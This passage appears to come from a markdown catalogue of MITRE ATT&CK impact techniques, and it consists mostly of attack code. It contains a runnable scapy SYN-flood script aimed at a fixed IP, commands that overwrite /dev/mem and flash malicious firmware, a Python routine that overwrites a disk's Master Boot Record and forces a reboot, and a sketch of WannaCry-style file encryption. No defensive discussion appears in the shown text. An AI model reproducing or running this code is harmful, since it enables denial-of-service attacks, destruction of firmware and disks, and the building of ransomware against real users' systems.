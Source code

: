 ### 9. Network Denial of Service (T1498)

```python
from scapy.all import *

def syn_flood(target_ip, target_port):
    """SYN flood attack"""
    while True:
        ip = IP(dst=target_ip)
        tcp = TCP(sport=RandShort(), dport=target_port, flags="S")
        send(ip/tcp, verbose=0)

# Launch attack
syn_flood("192.168.1.100", 80)
```

### 10. Firmware Corruption (T1495)

```bash
# Corrupt BIOS/UEFI (requires privileges)
dd if=/dev/urandom of=/dev/mem bs=1M count=1

# Flash malicious firmware
flashrom -w malicious_firmware.bin
```

---

## Real-World Impact Scenarios

### NotPetya Wiper Attack
```python
# NotPetya MBR overwrite
import os

def overwrite_mbr():
    """Overwrite Master Boot Record"""
    malicious_mbr = b'\x33\xc0\x8e\xd0\xbc...'  # MBR code
    
    with open('\\\\.\\PhysicalDrive0', 'r+b') as drive:
        drive.seek(0)
        drive.write(malicious_mbr)
        drive.flush()

overwrite_mbr()
os.system('shutdown /r /t 0')
```

### WannaCry Ransomware
```python
# Simplified WannaCry encryption logic
def wannacry_encrypt():
    # Generate RSA key pair
    from Crypto.PublicKey import RSA
    key = RSA.generate(2048)
    
    # For each file, generate AES key
    from Crypto.Cipher import AES
    for file in target_files:
        aes_key = os.urandom(32)
        cipher = AES.new(aes_key, AES.MODE_CBC)
        
        # Encrypt file with AES
        encrypt_file(file, cipher)
```